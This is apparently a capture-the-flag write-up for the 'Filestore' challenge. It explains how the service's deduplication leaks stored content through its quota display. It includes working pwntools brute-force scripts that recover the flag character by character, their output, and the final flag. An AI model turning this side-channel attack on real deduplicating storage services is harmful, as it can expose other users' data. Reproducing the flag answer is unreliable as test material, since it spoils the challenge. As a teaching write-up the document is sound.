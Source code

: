 # Filestore

## Challenge description
`We stored our flag on this platform, but forgot to save the id. Can you help us restore it?`

<br />

> TLDR: Brute force the flag via the `store` feature and verify the validity of the flag via the `status` feature. If the storage quota did not increase, the flag is valid. Otherwise, the flag is invalid.

## Program
```console
$ nc filestore.2021.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to our file storage solution.

Menu:
- load
- store
- status
- exit
```

The program has `load`, `store`, `status` and `exit` features.
- `load` feature requires me to provide a file id
- `store` feature allows me to store data into the storage and then provides me with a file id
- `status` feature displays storage quota
- `exit` feature exits the program

## Source code analysis
The program splits the input data into multiple substrings and checks whether each of the substrings exists in the storage. If the storage does not contain the substring, the program stores it into the storage.

```python
    # Use deduplication to save space.
    def store(data):
        nonlocal used
        MINIMUM_BLOCK = 16
        MAXIMUM_BLOCK = 1024
        part_list = []
        while data:
            prefix = data[:MINIMUM_BLOCK]
            ind = -1
            bestlen, bestind = 0, -1
            while True:
                ind = blob.find(prefix, ind+1)
                if ind == -1: break
                length = len(os.path.commonprefix([data, bytes(blob[ind:ind+MAXIMUM_BLOCK])]))
                if length > bestlen:
                    bestlen, bestind = length, ind

            if bestind != -1:
                part, data = data[:bestlen], data[bestlen:]
                part_list.append((bestind, bestlen))
            else:
                part, data = data[:MINIMUM_BLOCK], data[MINIMUM_BLOCK:]
                blob[used:used+len(part)] = part
                part_list.append((used, len(part)))
                used += len(part)
                assert used <= len(blob)
```

In other words, the storage quota will not increase if the substring exists in the storage. So, I can brute force the flag by using `store` and `status` features.

## Phrase 1 of brute force
To optimize the brute force process, I filtered out ascii characters that are not used in the flag.

Idea: Provides each of the ascii characters from ‘!’ to ‘}’ (33-125) to the program via the `store` function. Then, use the `status` function to check if the storage quota has increased. If the quota did not increase, then the character is used in the flag. Otherwise, the character is not found in the flag. 

```python
from pwn import *

validChars = []
memory = "0.026kB"

r = remote('filestore.2021.ctfcompetition.com', 1337)
res = r.recvuntil('exit\n')
for char in range(33, 126):
    r.sendline('store')
    res = r.recvuntil('data...\n')
    r.sendline(chr(char))
    res = r.recvuntil('exit\n')
    r.sendline('status')
    res = r.recvuntil('exit\n').split(b'/')[0].strip().split(b'Quota: ')[1].strip()
    if (res.decode() == memory):
        validChars.append(chr(char))
        print(chr(char) + " is inside the memory")
    else:
        print("Not inside the memory")
        memory = res.decode()

print(validChars)
```

The script's output:
```console
$ python3 brute.py
--snip--
{ is inside the memory
Not inside the memory
} is inside the memory
['0', '1', '3', '4', 'C', 'F', 'K', 'M', 'R', 'T', '_', 'c', 'd', 'f', 'i', 'n', 'p', 't', 'u', '{', '}']
[*] Closed connection to filestore.2021.ctfcompetition.com port 1337
```

So, the characters found in the flag are '0', '1', '3', '4', 'C', 'F', 'K', 'M', 'R', 'T', '_', 'c', 'd', 'f', 'i', 'n', 'p', 't', 'u', '{', '}'

## Phrase 2 of brute force
Idea: Provides `a substring of the flag + a valid flag's character` to the program via the `store` function. Then, check the storage quota via the `status` function. If the storage quota did not increase, submit `the last character of the flag + the valid flag's character` to the program via the `store` feature. (Reasoning: The program verifies each of the substrings with the storage's data. The valid flag's character might be part of the new substring itself when the program splits the input data) Then, check the storage quota via the `status` feature.

On the first run of the program, 
I detected two possible substrings of the flag:
```console
$ python3 brute-2.py
--snip--
[*] Closed connection to filestore.2021.ctfcompetition.com port 1337
Interesting: Found multiple new combination: i0 ic
Valid substring: CTF{CR1M3_0f_d3dup1i0
[*] Closed connection to filestore.2021.ctfcompetition.com port 1337
--snip--
Valid substring: CTF{CR1M3_0f_d3dup1i0n}
[*] Closed connection to filestore.2021.ctfcompetition.com port 1337
Flag: CTF{CR1M3_0f_d3dup1i0n}
```

The script will select the first encountered substring which explains why it chooses 'i0' instead of 'ic'.

However, submitting the above flag fails.

So, I enforce the script to choose the combination “ic” instead of “i0” by modifying the order of the characters in the array.

The working script:
``` python
from pwn import *

#validChars = ['0', '1', '3', '4', 'C', 'F', 'K', 'M', 'R', 'T', '_', 'c', 'd', 'f', 'i', 'n', 'p', 't', 'u', '{', '}']
validChars = ['c', '0', '1', '3', '4', 'C', 'F', 'K', 'M', 'R', 'T', '_', 'd', 'f', 'i', 'n', 'p', 't', 'u', '{', '}']
badCombination = []
potentialCombination = []
flag = "CTF{"
def verify(char):
    global flag
    substr = flag[-1] + char
    memory = "0.026kB"
    r1 = remote('filestore.2021.ctfcompetition.com', 1337)
    r1.recvuntil("exit\n")
    r1.sendline('store')
    res = r1.recvuntil('data...\n')
    r1.sendline(substr)
    res = r1.recvuntil('exit\n')
    r1.sendline('status')
    res = r1.recvuntil('exit\n').split(b'/')[0].strip().split(b'Quota: ')[1].strip()
    if (res.decode() == memory):
        if substr in badCombination:
            print("Warning: Repeated combination encountered: " + substr)
        else:
            potentialCombination.append(substr)
    r1.close()

while True:
    r = remote('filestore.2021.ctfcompetition.com', 1337)
    r.recvuntil("exit\n")
    memory = "0.026kB"
    for char in validChars:
        r.sendline('store')
        res = r.recvuntil('data...\n')
        r.sendline(flag + char)
        res = r.recvuntil('exit\n')
        r.sendline('status')
        res = r.recvuntil('exit\n').split(b'/')[0].strip().split(b'Quota: ')[1].strip()
        if (res.decode() == memory):
            verify(char)
        else:
            print("Invalid char: " + char)
            memory = res.decode()
        if flag[-1] == '}':
            break
    if len(potentialCombination) > 1:
        print("Interesting: Found multiple new combination: " + ' '.join(potentialCombination))
    badCombination.append(potentialCombination[0])
    flag = flag + potentialCombination[0][-1]   
    potentialCombination.clear()
    print("Valid substring: " + flag)
    r.close()
    if flag[-1] == '}':
        break

print("Flag: " + flag)
```

The script's output:
```console
$ python3 brute-2.py
--snip--
Valid substring: CTF{CR1M3_0f_d3dup1ic4ti0n}
[*] Closed connection to filestore.2021.ctfcompetition.com port 1337
Flag: CTF{CR1M3_0f_d3dup1ic4ti0n}
```

Flag: `CTF{CR1M3_0f_d3dup1ic4ti0n}`